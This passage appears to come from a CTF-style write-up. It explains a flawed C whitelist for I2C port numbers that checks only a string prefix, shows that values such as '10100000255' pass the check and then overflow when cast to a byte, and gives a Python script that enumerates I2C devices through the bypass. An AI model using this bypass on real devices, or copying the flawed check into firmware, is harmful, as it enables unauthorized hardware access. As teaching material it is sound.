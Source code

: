 In this function, the port number that the user passes is (incorrectly) checked as a string.
```c
bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) { //this part will compare strings until ANY of the strings terminates
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```

But here, it is converted to _uint8\_t_. This value will be used later on in the execution as the actual I2C address.
```c
int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}
```

The string value check can be bypassed by simply passing a port number that's longer than 3 characters because the whitelisted strings are all 3 characters long.
As the final port value is converted to an **unsigned byte**, if we pass a number that's higher than 255, the value will wrap around like this:
```
"255"->0xff # no overflow
"258"->0x02 # overflow 

"10100000000"->0x0 
"10100000255"->0xff 
# 101 passes the check, then the value overflows
```

This way the whitelist is bypassed, giving us an opportunity to enumerate available I2C peripherals.

## Enumeration

```python
def enumerateI2C():    
    
    log.info("i2c enumeration started")    
    
    devices = list()    
    
    for i in range(10100000000, 10100000255):    
        t.recvuntil("?")    
        t.sendline("r " + str(i) + " 1")                                        # ping the address
        resp = t.recvline()    
        log.info(f"{i - 10100000000}: {resp}")    
        if not "device not found" in resp.decode():                             # read status 
            devices.append(i)    
    log.info(f"i2c enumeration finished. {len(devices)} devices found")    
```